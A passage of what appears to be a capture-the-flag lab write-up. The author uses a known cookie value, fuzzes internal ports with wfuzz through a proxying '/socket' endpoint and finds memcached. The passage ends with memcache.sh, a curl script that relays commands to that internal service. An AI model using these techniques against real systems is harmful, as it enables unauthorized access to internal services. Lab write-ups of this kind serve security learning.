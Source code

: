 The value for the `password` cookie is `secret`. This is how the site looks like after inserting the `password` cookie.


{% include image.html image_alt="2cba17c0.png" image_src="/cf03319f-a3c7-48c7-bf76-211a3be4935e/2cba17c0.png" %}


### Memcached

Using this page, I was able to enumerate a further local service listening at `11211/tcp`: `memcached`. It's easy. Any non-listening port will result in a respode code of `500` (INTERAL SERVER ERROR). Again, we'll use `wfuzz` for such a job. The file `ports.txt` contains integers from 1 to 65535.

```
# wfuzz -w ports.txt -t 20 -b "password=secret" --hc 500 "http://10.10.10.86:8080/socket?port=FUZZ&cmd=hi"
********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://10.10.10.86:8080/socket?port=FUZZ&cmd=hi
Total requests: 65535

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

000021:  C=200     28 L	      61 W	    627 Ch	  "21"
000022:  C=200     28 L	      55 W	    629 Ch	  "22"
000080:  C=200     40 L	      84 W	   1010 Ch	  "80"
008080:  C=200     40 L	      84 W	   1010 Ch	  "8080"
011211:  C=200     27 L	      52 W	    576 Ch	  "11211"

Total time: 951.6016
Processed Requests: 65535
Filtered Requests: 65529
Requests/sec.: 68.86810

```

According to [Wikipedia](https://en.wikipedia.org/wiki/Memcached),

> Memcached (pronunciation: mem-cashed, mem-cash-dee) is a general-purpose distributed memory caching system. It is often used to speed up dynamic database-driven websites by caching data and objects in RAM to reduce the number of times an external data source (such as a database or API) must be read.

To that end, I wrote a script to extract information from `memcached`, using `curl` as the driver.

<div class="filename"><span>memcache.sh</span></div>

```bash
#!/bin/bash

RHOST=10.10.10.86
RPORT=8080
MPORT=11211
CMD="$@"

curl -s \
     -b "password=secret" \
     "http://$RHOST:$RPORT/socket?port=$MPORT&cmd=$CMD" \
| sed '/<pre>/,/<\/pre>/!d' \
| sed -e '1d' -e '$d'
```
